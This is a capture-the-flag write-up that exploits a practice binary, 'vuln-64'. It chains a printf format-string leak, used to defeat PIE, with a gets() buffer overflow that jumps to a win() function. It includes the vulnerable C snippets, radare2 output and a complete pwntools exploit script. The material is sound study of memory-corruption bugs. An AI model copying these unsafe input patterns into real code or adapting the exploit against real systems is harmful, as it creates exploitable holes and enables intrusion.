 # Exploit Writeup: vuln-64

## Challenge Overview

**Binary Name:** `vuln-64`
**Architecture:** 64-bit ELF  
**Protections:**  
- NX: Enabled  
- PIE: Enabled  
- Stack Canaries: Not Present  
- RELRO: Partial  

The binary asks for your name and prints it using `printf()`, making it vulnerable to a **format string vulnerability**. Later, it takes a message input with `gets()`, leading to a **buffer overflow**.

---

## Vulnerability Analysis

### 1. Format String Leak

The input to `name?` is passed directly into `printf()` without format sanitization:

```c
char name[32];
puts("What's your name?");
gets(name);
printf("Nice to meet you ");
printf(name);
````

This allows us to leak addresses on the stack using `%p`. Specifically, `%15$p` leaks the return address to `main()` which helps bypass PIE.


### 2. Buffer Overflow

The message is read again using `gets()`:

```c
puts("What's your message?");
gets(buffer);
```

Since there’s no bounds checking, we can overflow the buffer and control the return address to redirect execution to `win()`.

---

## 🛠 Exploitation Steps

### Step 1: Leak `main()` address to defeat PIE

We send `%15$p` as the name to leak the return address pointing into `main()`:

```python
p.sendline('%15$p')
leak = int(p.recvline().strip(), 16)
```

![leaked main](./img/leakedmain.png)

### Step 2: Calculate PIE base address

Using symbols from `rabin2` or `ELF()` from pwntools, we find:

```bash
$ rabin2 -s ./vuln-64 | grep main
65  0x000011d6 0x000011d6 GLOBAL FUNC   21       main
```

So PIE base = leaked address - 0x11d6.

```python
elf.address = leak - elf.symbols['main']
```

### Step 3: Overflow buffer and call `win()`

Find offset using raag2:

```bash
$ ragg2 -P 100 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
```

first we need to find the position of return addreess on the stack 

```bash
[0x7071a6c1f5c0]> s main; pdf
            ; DATA XREF from entry0 @ 0x5ca75319909d(r)
┌ 21: int main (int argc, char **argv, char **envp);
│           0x5ca7531991d6      55             push rbp
│           0x5ca7531991d7      4889e5         mov rbp, rsp
│           0x5ca7531991da      b800000000     mov eax, 0
│           0x5ca7531991df      e881ffffff     call sym.vuln
│           0x5ca7531991e4      b800000000     mov eax, 0
│           0x5ca7531991e9      5d             pop rbp
└           0x5ca7531991ea      c3             ret
[0x5ca7531991d6]>
```

we need to find the value `0x5ca7531991e4` on the stack

```bash
[0x5ca7531991d3]> pxq @ rsp
```

![stack main addr](./img/mainaddr.png)

---

<br>

![offset](./img/ragg2-offset.png)


boom we get the offset

Then, build the payload:

```python
payload = b'A' * 40
payload += p64(elf.symbols['win'])
```

---

## 💥 Final Exploit

```python
from pwn import *

context.binary = elf = ELF('./vuln-64')
context.log_level = 'debug'
p = process()

# Step 1: Leak address of main()
p.recvuntil('name?\n')
p.sendline('%15$p')

p.recvuntil('you ')
leak = p.recvline().strip()
elf_leak = int(leak, 16)
log.success(f"Leaked address of main(): {hex(elf_leak)}")

# Step 2: Calculate PIE base
elf.address = elf_leak - elf.symbols['main']
log.success(f"PIE base address: {hex(elf.address)}")

# Step 3: Build payload to call win()
payload = b'A' * 40
payload += p64(elf.sym['win'])

# Step 4: Send payload
p.recvuntil('message?\n')
p.sendline(payload)

# Step 5: Output result
print(p.clean().decode(errors='ignore'))

```

![final result](./img/final.png)

---

## ✅ Conclusion

This challenge combines **format string** for address leak and **buffer overflow** for control of execution. By leaking PIE base and overwriting return address, we redirect execution to `win()`.

---

## 🔧 Tools Used

* [pwntools](https://docs.pwntools.com)
* [r2 / rabin2](https://rada.re/n/)


---

## 📌 Notes

* `%15$p` worked because in 64-bit, the first few arguments are passed in registers. from 1-6
* `gets()` should never be used in real code due to its lack of bounds checking.


